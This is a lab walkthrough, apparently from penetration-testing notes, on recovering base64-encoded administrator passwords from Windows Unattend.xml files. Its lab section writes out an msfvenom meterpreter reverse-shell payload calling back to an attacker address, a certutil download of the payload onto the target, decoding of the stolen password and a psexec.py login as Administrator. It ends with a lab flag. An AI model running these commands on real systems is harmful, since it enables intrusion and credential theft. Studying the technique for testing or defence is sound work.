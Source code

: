 # Searching For Passwords in Windows Configuration Files

- Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.

- This is typically done through the use of the Unattended Windows Setup utility, which is used to automate the mass installation/deployment of Windows on systems.

- This tool utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrator account’s password.

- If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows target legitimately.

## Unattended Windows Setup

- The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information:
    + C:\Windows\Panther\Unattend.xml
    + C:\Windows\Panther\Autounattend.xml

- As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.

## Laboratory

For this laboratory, the attacker machine and the target machine ara available for use.

### Getting Initial Access

- First step is to generate a meterpreter payload using msfvenom `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$ATTACKER_ADDRESS LPORT=$ATTACKER_PORT -f exe > payload.exe`.

**Note**: In this case we know the system is running a x64 version, in case of not knowing the architecture, use x86-32 so you will be sure it will work every time.

- Next step is to expose those files using the module `SimpleHTTPServer` of python `python -m SimpleHTTPServer 80` so you can download the payload from the target machine. Download the payload using `certutil -urlcache -f http://x.x.x.x/path-to-source-file path-to-destination-file` or through the browser.

**Note**: Remember port 80 is the standard but you could use any port.

- Start the `multi/handler` in the msfconsole and configure RHOST, LHOST and LPORT you configured.

**Note**: Remeber to change payload to the one that you used when using multi/handler.

### Getting and Exploiting Unattend File

- Once the meterpreter session is established, you could run a search command to look up for Unattend.xml files `search -f Unattend.xml`. In this case we know where the file would likely be and we can try to look it up by ourselves manually. Go to `C:\Windows\Panther` and you should find the file there.

- Download the file to your machine and perform a little bit of search inside the file. The tag you are looking is `<AutoLogon>` and there you should find the password set for the corresponding users, including administrator password. Save the password you want to decode to the file password.txt.

- The password will come coded as base64. Decode it using `base64 -d password.txt`.

- Now we can run psexec.py to establish a command shell between the target and us with the password obtained from the configuration file `psexec.py Administrator@x.x.x.x` and it will ask you for the password.

**Note**: It is possible that target changed the password of the Administrator account at some point, in that case the password won't be valid anymore.

Flag: 097ab83639dce0ab3429cb0349493f60
